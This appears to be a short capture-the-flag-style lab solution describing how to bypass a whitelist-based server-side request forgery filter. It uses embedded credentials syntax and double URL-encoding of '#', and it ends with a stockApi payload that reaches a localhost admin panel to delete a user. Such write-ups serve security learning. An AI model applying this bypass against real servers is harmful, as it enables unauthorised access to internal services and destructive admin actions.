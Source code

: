 # SSRF with whitelist-based input filter
Solution:
- Use the format http://evil-domain@actual-domain
- This gets accepted by the server
- Try with http://127.0.0.1#@stock.weliketoshop.net:8080
- It gets blocked. Try URL-encoding it. Still gets blocked.
- URL-encode again
	- \# -> %23 -> %2523
	- Bypassed
- To access the `/admin` panel, append it to the end of the url
```js
stockApi=http://127.0.0.1%2523@stock.weliketoshop.net:8080/admin/delete?username=carlos
```